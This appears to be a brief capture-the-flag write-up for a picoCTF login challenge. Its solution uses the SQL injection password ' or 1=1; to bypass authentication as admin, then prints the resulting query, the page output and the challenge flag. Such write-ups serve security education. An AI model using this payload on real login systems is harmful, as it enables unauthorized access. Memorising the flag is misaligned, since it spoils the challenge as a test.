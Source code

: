 ## Descripción 
Can you login to this website?

Additional details will be available after launching your challenge instance.
## Hints
1. `admin` is the user you want to login as.
## Solución
```
|   |
|---|
|<pre>username: admin|
|password: &#039; or 1=1;|
|SQL query: SELECT * FROM users WHERE name=&#039;admin&#039; AND password=&#039;&#039; or 1=1;&#039;|
|</pre><h1>Logged in! But can you see the flag, it is in plainsight.</h1><p hidden>Your flag is: picoCTF{L00k5_l1k3_y0u_solv3d_it_d3c660ac}</p>|

picoCTF{L00k5_l1k3_y0u_solv3d_it_d3c660ac}
```
## Notas

## Referencias
